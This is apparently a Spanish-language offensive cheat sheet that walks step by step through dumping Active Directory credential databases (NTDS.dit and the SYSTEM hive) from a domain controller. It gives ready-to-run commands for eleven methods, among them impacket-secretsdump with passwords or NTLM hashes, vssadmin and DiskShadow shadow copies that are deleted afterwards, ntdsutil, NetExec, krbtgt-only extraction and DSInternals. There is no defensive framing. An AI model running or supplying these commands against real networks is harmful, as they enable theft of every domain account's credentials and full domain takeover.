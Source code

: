 
## 💻 Ejemplo práctico ofensivo (paso a paso)

```bash
# 1. Extracción remota con secretsdump.py (VSS automático)
impacket-secretsdump -ntds domain.com/administrator:password@dc.domain.com

# 2. Extracción con hash NTLM
impacket-secretsdump -hashes :aad3b435b51404eeaad3b435b51404ee domain.com/administrator@dc.domain.com

# 3. Extracción solo NTDS.dit (sin SYSTEM)
impacket-secretsdump -just-dc-ntlm domain.com/administrator:password@dc.domain.com -outputfile ntds_dump

# 4. Extracción manual con VSS (Windows)
# Crear shadow copy
vssadmin create shadow /for=C:

# Copiar archivos críticos desde shadow copy
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\ntds.dit C:\temp\ntds.dit
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM C:\temp\SYSTEM

# Limpiar shadow copy
vssadmin delete shadows /for=C: /all /quiet

# 5. Extracción con ntdsutil (nativo Windows)
ntdsutil
activate instance ntds
ifm
create full C:\temp\ntds_extract
quit
quit

# 6. Extracción con DiskShadow script
echo "set context persistent nowriters" > extract.dsh
echo "add volume C: alias systemdrive" >> extract.dsh
echo "create" >> extract.dsh
echo "expose %systemdrive% Z:" >> extract.dsh
echo "exec \"cmd.exe\" /c copy Z:\Windows\NTDS\ntds.dit C:\temp\ntds.dit" >> extract.dsh
echo "exec \"cmd.exe\" /c copy Z:\Windows\System32\config\SYSTEM C:\temp\SYSTEM" >> extract.dsh
echo "delete shadows volume %systemdrive%" >> extract.dsh
echo "reset" >> extract.dsh

diskshadow /s extract.dsh

# 7. Procesamiento offline con secretsdump
impacket-secretsdump -ntds ntds.dit -system SYSTEM LOCAL

# 8. Extracción con NetExec
nxc smb dc.domain.com -u administrator -p password --ntds

# 9. Extracción selectiva (solo krbtgt)
impacket-secretsdump -just-dc-user krbtgt domain.com/administrator:password@dc.domain.com

# 10. Extracción con DSInternals (PowerShell)
Import-Module DSInternals
Get-ADDBAccount -All -DatabasePath "ntds.dit" -BootKey (Get-BootKey -SystemHivePath "SYSTEM")

# 11. Extracción desde backup
# Restaurar System State backup en servidor comprometido
wbadmin start systemstaterecovery -version:XX/XX/XXXX-XX:XX -quiet

# Extraer desde backup restaurado
```
